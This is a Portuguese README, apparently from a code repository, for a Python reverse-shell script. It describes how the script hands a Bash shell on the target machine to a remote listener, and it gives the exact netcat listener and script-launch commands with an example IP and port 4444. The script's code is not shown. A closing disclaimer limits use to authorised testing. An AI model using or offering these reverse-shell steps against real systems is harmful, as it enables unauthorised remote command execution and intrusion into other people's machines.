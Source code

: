 # Reverse Shell TCP

Este projeto contém um script Python para criar uma reverse shell via TCP.
## Arquivo
- `reverse-shell.py`: Script principal que implementa a reverse shell.

## Como funciona
O script conecta-se a um servidor remoto (listener) especificado por IP e porta, redirecionando a entrada e saída padrão para o socket, e executa um shell Bash. Isso permite que o servidor remoto execute comandos no sistema onde o script está rodando.

## Uso
1. **No servidor listener:**
   Execute um listener na porta desejada, por exemplo usando netcat:
   ```bash
   nc -lvnp <porta>
   ```

2. **Na máquina alvo:**
   Execute o script Python:
   ```bash
   python3 reverse-shell.py <ip_do_servidor> <porta>
   ```
   - `<ip_do_servidor>`: IP do listener
   - `<porta>`: Porta usada pelo listener

## Exemplo
```bash
# No listener
nc -lvnp 4444

# Na alvo
python3 reverse-shell.py 192.168.0.100 4444
```

## Requisitos
- Python 3.x
- Sistema operacional com `/bin/bash` disponível

## Aviso Legal
> **Atenção:** Este script é para fins educacionais e de teste em ambientes controlados e autorizados. O uso não autorizado pode ser ilegal. O autor não se responsabiliza por qualquer uso indevido. 